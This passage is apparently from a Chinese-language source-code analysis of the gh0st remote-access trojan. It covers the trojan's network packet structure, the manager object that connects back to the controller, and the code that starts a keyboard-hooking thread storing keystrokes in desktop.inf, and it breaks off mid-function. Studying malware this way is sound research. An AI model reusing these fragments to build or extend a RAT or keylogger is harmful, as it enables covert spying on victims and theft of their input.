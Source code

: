 这个过程如下：

![](http://www.hootina.org/github_easyserverdev/20181228174657.png)

##### gh0st 的通信协议

根据上面的流程，我们可以得到 **gh0st** 网络通信协议包的格式，我们用一个结构体来表示一下：

```
//让该结构体以一个字节对齐
#pragma pack(push, 1)
struct Gh0stPacket
{
    //5字节package flag: 内容是gh0st
    char flag[5];
    //4字节的包大小
    int32_t packetSize;
    //4字节包体压缩前大小
    int32_t bodyUncompressedSize;
    //数据内容，长度为packetSize-13
    char data[0];
}
#pragma pack(pop)
```

当发送数据装包的过程和这个解包的过程刚好相反，位于上面说的 **CClientSocket::Send** 函数里面，这里就不再重复介绍了。



##### 工作线程二

我们刚才介绍了，当解析完一个完整的数据包后，把它放入CClientSocket 的成员变量 **m_DeCompressionBuffer** 中，然后交给 **m_pManager->OnReceive()** 函数处理，**m_pManager** 是一个基类 **CManager** 对象指针，其 **OnReceive** 函数我们要看其指向的子类方法的具体实现。这个对象在哪里设置的呢？

在我们上面介绍的程序主脉络中我们说主线程中有一个步骤是**等待控制端发送激活命令**，这个步骤有这样一段代码：

```
//svchost.cpp 220行
CKernelManager	manager(&socketClient, strServiceName, g_dwServiceType, strKillEvent, 
						lpszHost, dwPort);
socketClient.setManagerCallBack(&manager);
```

在这里我们可以得出 **CClientSocket.m_pManager** 指向的实际对象是 **CKernelManager**，同时在 CKernelManager 的**构造函数中**又新建了一个工作线程，线程函数叫 **Loop_HookKeyboard**。

```
//KernelManager.cpp 111行
m_nThreadCount = 0;
// 创建一个监视键盘记录的线程
// 键盘HOOK跟UNHOOK必须在同一个线程中
m_hThread[m_nThreadCount++] =
MyCreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)Loop_HookKeyboard, NULL, 0, NULL, true);
```

这个线程句柄被保存在 CKernelManager 的 **m_hThread** 数组中。线程函数 **Loop_HookKeyboard** 内容如下：

```
//Loop.h 76行
DWORD WINAPI Loop_HookKeyboard(LPARAM lparam)
{
    TCHAR szModule[MAX_PATH - 1];
    TCHAR	strKeyboardOfflineRecord[MAX_PATH];
    CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
    CKeyboardManager::MyGetSystemDirectory(strKeyboardOfflineRecord, ARRAYSIZE(strKeyboardOfflineRecord));
    lstrcat(strKeyboardOfflineRecord, TEXT("\\desktop.inf"));

    if (GetFileAttributes(strKeyboardOfflineRecord) != INVALID_FILE_ATTRIBUTES /*- 1*/)
    {
```